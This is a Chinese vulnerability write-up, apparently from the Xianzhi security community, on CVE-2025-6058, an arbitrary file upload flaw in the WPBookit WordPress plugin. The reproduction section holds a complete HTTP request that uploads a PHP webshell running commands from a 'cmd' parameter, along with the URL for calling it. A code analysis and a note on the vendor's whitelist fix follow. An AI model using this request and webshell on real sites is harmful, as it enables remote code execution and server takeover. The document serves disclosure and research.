







# 【CVE-2025-6058】WPBookit 插件任意文件上传漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18470  
> **文章ID**: 18470

---

## 0x01 漏洞复现

### 1.1 漏洞介绍

WPBookit 是用于 WordPress 的插件，功能包括在线预订和预约管理。该插件中存在缺陷，在 image\_upload\_handle() 函数缺少文件类型验证，使得在所有版本至 1.0.4 包括 1.0.4 的版本中，攻击者可以通过添加新的预订类型的路由（add\_booking\_type）上传任意文件。这种情况下，攻击者能够在受影响网站的服务器上上传任意文件，并可能进行远程代码执行。

### 1.2 漏洞复现

首先探测应用是否有用wpbookit，版本是否为1.0.4之前版本

```
https://[host]/wp-content/plugins/wpbookit/README.txt
```

通过接口上传shell

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: [host]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 658
Content-Type: multipart/form-data; boundary=bfe1109f2d4c8fc9e98c8a99d6da8a99

--bfe1109f2d4c8fc9e98c8a99d6da8a99
Content-Disposition: form-data; name="action"

wpb_ajax_post
--bfe1109f2d4c8fc9e98c8a99d6da8a99
Content-Disposition: form-data; name="route_name"

add_booking_type
--bfe1109f2d4c8fc9e98c8a99d6da8a99
Content-Disposition: form-data; name="title"

Test
--bfe1109f2d4c8fc9e98c8a99d6da8a99
Content-Disposition: form-data; name="booking_type"

Nxploited
--bfe1109f2d4c8fc9e98c8a99d6da8a99
Content-Disposition: form-data; name="cover_image_img"; filename="shell.php"
Content-Type: application/octet-stream

<?php if(isset($_REQUEST["cmd"])){system($_REQUEST["cmd"]);} ?>
--bfe1109f2d4c8fc9e98c8a99d6da8a99--
```



显示是false，提示fail to upload media，不要紧，访问一下webshell，路径是: /wp-content/uploads/[当前年份]/[当前月份]/shell.php

```
https://[host]/wp-content/uploads/[year]/[month]/shell.php?cmd=whoami
```



## 0x02 漏洞分析

### 2.1 漏洞路径

```
攻击者请求 → WordPress AJAX → wpb_ajax_post → add_booking_type → image_upload_handle → 文件上传成功
```

### 2.2 代码分析

action传入wpb\_ajax\_post

route\_name传入add\_booking\_type

则来打 core/admin/classes/class.wpb-admin-routes-handler.php的wpb\_ajax\_post方法



路由定义

add\_booking\_type对应的controller则是core/admin/classes/controllers/class.wpb-booking-type-controller.php





$\_FILES超全局数组的结构，这里方便理解这个$edit\_image\_url["tmp\_name"] 是什么意思

```
$_FILES = [
    "cover_image_img" => [
        "name"     => "my_photo.jpg",    // 原始文件名
        "type"     => "image/jpeg",      // MIME 类型
        "tmp_name" => "/tmp/php3dR2xW", // 临时文件路径 ← 核心!
        "error"    => 0,                 // 错误代码（0=无错误）
        "size"     => 123456             // 文件大小（字节）
    ]
]
```

漏洞关键点，在if中先move了文件，在验证文件是否是媒体文件。所以导致payload回显是报错的，但实际已上传成功。



官方的修复方法是增加了白名单文件类型和文件后缀的验证


